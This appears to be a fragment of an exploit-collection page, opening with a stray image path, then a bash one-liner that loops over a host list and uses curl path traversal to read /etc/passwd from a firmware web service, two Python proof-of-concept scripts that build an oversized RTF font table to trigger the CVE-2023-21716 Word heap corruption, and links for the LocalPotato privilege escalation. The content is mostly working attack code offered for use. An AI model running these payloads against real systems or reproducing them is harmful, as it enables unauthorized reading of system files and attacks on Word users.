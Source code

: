 - Firmware 12.4.2

```console
$ cat <FILE> | while read host do;do curl -sk "http://$host:8443/images//////////////////../../../../../../../../etc/passwd" | grep -i 'root:' && echo $host "is VULNERABLE";done
```

## CVE-2023-21716: Microsoft Word RTF Font Table Heap Corruption RCE PoC (Python Implementation)

### PoC 1

```python
{% highlight Python %}
#!/usr/bin/python
#
# PoC for:
# Microsoft Word RTF Font Table Heap Corruption Vulnerability
#
# by Joshua J. Drake (@jduck)
#

import sys

# allow overriding the number of fonts
num = 32761
if len(sys.argv) > 1:
  num = int(sys.argv[1])

f = open("tezt.rtf", "wb")
f.write("{\\rtf1{\n{\\fonttbl")
for i in range(num):
  f.write("{\\f%dA;}\n" % i)
f.write("}\n")
f.write("{\\rtlch it didn't crash?? no calc?! BOO!!!}\n")
f.write("}}\n")
f.close()
{% endhighlight %}
```

### PoC 2

```console
open("t3zt.rtf","wb").write(("{\\rtf1{\n{\\fonttbl" + "".join([ ("{\\f%dA;}\n" % i) for i in range(0,32761) ]) + "}\n{\\rtlch no crash??}\n}}\n").encode('utf-8'))
```

## CVE-2023-21746: Windows NTLM EoP LocalPotato LPE

> https://github.com/decoder-it/LocalPotato

> https://github.com/blackarrowsec/redteam-research/tree/master/LPE%20via%20StorSvc
